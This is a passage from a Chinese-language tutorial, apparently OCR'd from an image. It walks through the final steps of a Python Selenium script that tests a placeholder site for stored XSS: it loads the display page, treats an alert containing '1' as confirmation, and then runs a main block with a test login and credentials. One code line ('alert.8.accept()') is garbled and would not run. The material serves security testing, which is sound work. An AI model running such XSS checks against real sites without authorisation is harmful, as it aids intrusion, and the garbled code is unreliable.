 使用Selenium启动Chrome浏览器，访问显示URL。等待页面加载。检测警告框，如果警告框文本中包含"1"，则接受警告框。

~~~py
driver = webdriver.Chrome()
    try:
        # 访问显示URL
        driver.get(display_url)
        time.sleep(3)  # 等待页面加载
        
        # 检测弹窗
        # 获取页面上的警告框
        alert = Alert(driver)
        # 检查警告框文本中是否包含"1"
        if "1" in alert.text:
            print(f"[+] 漏洞存在! Payload: {payload}")
            alert.8.accept()  # 如果存在弹窗，点击接受
            return True
        else:
            print("[-] 未检测到弹窗")
            return False
~~~

Alert是 Selenium WebDriver 中用于处理浏览器弹出警告框（alert）的一个类。这里是为了获取页面上的警告框。

**8.异常处理**

~~~py
except Exception as e:
        # 如果发生异常，打印异常信息
        print(f"[-] 验证异常: {str(e)}")
        return False
~~~

**9.关闭浏览器**

~~~py
 finally:
        # 无论测试结果如何，都关闭浏览器
        driver.quit()
~~~

**10.主程序**

~~~python
if __name__ == "__main__":
    # 目标URL，即存储XSS漏洞的数据提交地址
    TARGET = "http://vuln-site.com/comment.php"  
    # 数据展示页面URL
    DISPLAY = "http://vuln-site.com/comments.php" 
    # 登录URL
    LOGIN = "http://vuln-site.com/login.php"
    # 登录凭据
    CREDS = {'username': 'test', 'password': 'test123'}    
    # 执行存储型XSS测试
    test_stored_xss(TARGET, DISPLAY, LOGIN, CREDS)
~~~
